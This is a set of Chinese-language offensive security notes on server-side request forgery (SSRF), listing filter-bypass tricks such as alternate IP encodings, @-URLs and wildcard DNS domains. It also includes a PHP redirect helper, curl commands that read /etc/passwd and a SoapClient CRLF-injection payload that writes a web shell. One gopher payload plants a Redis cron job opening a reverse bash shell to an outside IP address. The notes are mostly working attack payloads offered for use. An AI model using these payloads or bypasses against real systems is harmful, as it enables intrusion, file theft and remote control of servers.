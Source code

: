 # ssrf



## sni



## TLS Poison

https://github.com/jmdx/TLS-poison



## 绕过小技巧

1.http://baidu.com@www.baidu.com/与http://www.baidu.com/请求时是相同的

2.各种IP地址的进制转换

3.URL跳转绕过：http://www.hackersb.cn/redirect.php?url=http://192.168.0.1/

4.短网址绕过 http://t.cn/RwbLKDx

5.xip.io来绕过：http://xxx.192.168.0.1.xip.io/ == 192.168.0.1 (xxx 任意）像这种网址还有`nip.io`，`sslip.io`。

指向任意ip的域名：xip.io(37signals开发实现的定制DNS服务)

6.限制了子网段，可以加 :80 端口绕过。http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80

7.探测内网域名，或者将自己的域名解析到内网ip

8.例如 http://10.153.138.81/ts.php , 修复时容易出现的获取host时以/分割来确定host，

9.利用DNS解析

- 其他他各种指向127.0.0.1的地址

```
1. http://localhost/
2. http://0/
3. http://[0:0:0:0:0:ffff:127.0.0.1]/
4. http://[::]:80/
5. http://127。0。0。1/
6. http://①②⑦.⓪.⓪.①
7. http://127.1/
8. http://127.00000.00000.001/
```

但这样可以用 http://abc@10.153.138.81/ 绕过

## 收藏

 [https://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html](https://uknowsec.cn/posts/notes/SSRF漏洞的利用与学习.html) 

## 利用302跳转等来绕过协议限制

当URL存在临时(302)或永久(301)跳转时，则继续请求跳转后的URL

那么我们可以通过HTTP(S)的链接302跳转到gopher协议上。

我们继续构造一个302跳转服务，代码如下302.php:

```php
<?php  
    $schema = $_GET['s'];
	$ip     = $_GET['i'];
	$port   = $_GET['p'];
	$query  = $_GET['q'];
	if(empty($port))
    {      
		header("Location:$schema://$ip/$query"); 
    }else 
    {
        header("Location: $schema://$ip:$port/$query"); 
    }
```



#### 利用测试

```
# dict protocol - 探测Redisdict://127.0.0.1:6379/info  curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'# file protocol - 任意文件读取curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'# gopher protocol - 一键反弹Bash# * 注意: gopher跳转的时候转义和`url`入参的方式有些区别curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  %0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```



## soap

 https://www.anquanke.com/post/id/153065#h2-5 

### 利用条件

调用soap的`__call`方法

### payload

```
<?php
$target = 'http://127.0.0.1/test.php';
$post_string = '1=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,
'user_agent'=>'wupco^^Content-Type:application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length:'.(string)strlen($post_string).'^^^^'.$post_string,
'uri'=> "aaab"));
//因为user-agent是可以控制的，因此可以利用crlf注入http头来发送post请求
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);

$c=unserialize(urldecode($aaa));
$c->ss();  //调用_call方法触发网络请求发送
?>
```





## gopher





## 绕过

利用`http://example.com@evil.com`来绕过

利用ip地址的不同形式绕过

1. 0177.00.00.01(八进制)
2. 2130706433（十进制）
3. 0x7f.0x0.0x0.0x1
4. 127.1（IP地址省略写法）

域名解析绕过

